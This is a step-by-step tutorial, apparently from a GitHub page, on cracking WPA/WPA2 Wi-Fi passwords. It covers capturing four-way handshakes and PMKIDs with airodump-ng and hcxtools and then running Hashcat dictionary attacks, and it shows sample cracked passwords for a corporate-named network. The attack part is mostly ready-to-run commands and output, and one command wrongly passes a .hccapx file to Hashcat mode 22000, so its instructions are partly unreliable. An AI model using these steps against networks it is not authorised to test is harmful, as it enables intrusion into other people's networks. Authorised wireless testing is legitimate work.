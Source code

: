 # 🔓 **Cracking Wireless (WPA/WPA2) Handshakes with Hashcat**

Wireless networks are often a **gateway to corporate networks** 🏢.  
Weak passwords in **WPA/WPA2** can be cracked **offline** using Hashcat once we capture a handshake.  
Let's break it down! 🚀

---

## 🔥 **Step 1: Capturing WPA Handshakes**

A **WPA handshake** occurs when a device connects to a Wi-Fi network.  
We need to **capture** this handshake before cracking it.

📌 **Common tools for capturing handshakes:**  
✅ `airodump-ng` (part of Aircrack-NG suite)  
✅ `hcxdumptool` (for PMKID attacks)

**Capture the WPA handshake:**

```bash
airodump-ng --bssid <TARGET_BSSID> -c <CHANNEL> -w handshake wlan0
```

👉 This saves the handshake in a `.cap` file.

---

## 🏆 **Method 1: Cracking WPA/WPA2 MIC (4-Way Handshake)**

💡 **4-Way Handshake** (MIC) verifies both client & AP share the Wi-Fi password.  
We extract this handshake and use Hashcat to brute-force the password.

### **1️⃣ Convert .cap to .hccapx**

We need `cap2hccapx` (from `hashcat-utils`) to convert `.cap` to `.hccapx`:

```bash
git clone https://github.com/hashcat/hashcat-utils.git
cd hashcat-utils/src
make
```

Now, convert the capture file:

```bash
./cap2hccapx.bin handshake.cap handshake.hccapx
```

---

### **2️⃣ Crack with Hashcat**

Use Hashcat with **Mode 22000** for WPA2:

```bash
hashcat -a 0 -m 22000 handshake.hccapx /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```

👉 **Output (Success! 🎯)**

```
CORP-WIFI:rockyou1
```

✅ **Password Cracked: `rockyou1`**

📌 **Tip:** **Use GPU acceleration** for faster cracking! 🚀

---

## 🏆 **Method 2: Cracking PMKID (Access Point Attack)**

💡 **PMKID Attack** targets the AP directly (no deauth needed).  
The **PMKID** is in the **first packet** of the handshake and can be cracked offline.

---

### **1️⃣ Extract PMKID from .cap File**

Install `hcxtools` for PMKID extraction:

```bash
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
make && make install
```

Extract the PMKID:

```bash
hcxpcapngtool -o pmkid_hashes.txt handshake.cap
```

👉 **Example Output:**

```
7943ba84a475e3bf1fbb1b34fdf6d102*10da43bef746*80822381a9c8*434f52502d57494649
```

---

### **2️⃣ Crack PMKID with Hashcat**

Use Hashcat with **Mode 22000**:

```bash
hashcat -a 0 -m 22000 pmkid_hashes.txt /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```

👉 **Output (Success! 🎯)**

```
CORP-WIFI:cleopatra
```

✅ **Password Cracked: `cleopatra`**

📌 **Tip:** PMKID attacks work best on modern APs that support **WPA roaming**.

---

# 🚀 **Final Thoughts & Pro Tips**

✅ **Monitor & capture WPA handshakes first!**  
✅ **Use GPU for best performance.**  
✅ **Try different wordlists (`rockyou.txt`, `darkc0de.txt`, etc.).**  
✅ **Test network security legally.** **Never attack unauthorized networks!** 🔥
